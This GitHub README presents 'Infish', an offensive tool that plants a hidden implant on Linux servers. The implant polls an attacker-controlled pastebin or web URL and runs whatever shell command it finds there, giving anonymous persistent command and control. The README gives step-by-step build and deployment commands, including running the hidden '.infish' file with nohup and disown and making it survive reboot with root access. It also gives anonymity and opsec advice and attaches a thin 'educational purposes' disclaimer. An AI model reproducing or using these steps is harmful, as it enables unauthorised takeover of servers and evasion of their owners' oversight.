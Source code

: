 # Infish

Infish stands for infinite shell. It's a way to maintain persistent shell access (command and control) on a linux server even without ftp, ssh, or cpanel access. It works on all linux servers, even on shared hosting.

Note that this project is for **educational purposes** only. I bear no responsibility for how you use it. For this reason, no specific tutorial will be given for how exactly when or where to use this tool.

The aim of this shell is the give the penetration tester maximum and complete control over the system such that **even reboot** can not save the day. Infact if one has root access, one can set the script to run on boot, that way, the target is **screwed**.

# How it works
Here, you will have a shell that keeps checking on a paste on a predefined url or pastebin (use a throw away account and make the paste unlisted), and running whatever command it finds there. That way, you don't need access to the target machine. You've created a poor man's reverse shell, while remaining anonymous in the process.

Anytime you need to run a command, simply edit the paste to the command you want.

# Usage

There are two ways to build the final product.

- Using a raw paste url (or a website you control. Observe opsec though.)
- Using your pastebin dev api key, username, and password

However, you first need to clone this repository or copy the infis-builder file to your local machine. Make it executable by running  

```bash
$ chmod +x infish-builder
```

## Using a raw url

This is when you already have a webpage (observe opsec) or have already created a paste by hand. Get the **raw paste url** or the url or the page and run the following command

```bash
$ ./infish-builder url pastebin.com/raw/abc123
```

```bash
$ ./infish-builder url somesite.com/cmdpage
```
**You can also use this is you have a url you host on the internet**.

## Using your pastebin details

This is the recommended method, as everything is automated. For this, obtain the following

- Your pastebin dev api key
- Your pastebin username (To our throwaway account)
- Your pastebin password

Then run the following

```bash
$ ./infish-builder key xxxxxxxxxxxxxxxxxxxxxxx
Pastebin username:
john
Pastebin password:
doe
New paste name:
shell

Successfully built infinite shell

$
```

A file called '.infish' is created. It will contain something like this   


```bash

```

Finally, upload it to the target server and there, make it executable by running   

```bash
$ chmod +x .infish
```

Then to begin c&c, run  

```bash
$ nohup ./.infish & disown
```

Now, you can edit your paste to any shell command and the server will run it.

That's it, you own the server. If you have root access, you can set the last command to run on boot.

If you're confused or have no idea what's going on on this page, then you should not be here. Go build cute websites and apps.




Stay Dangerous :)
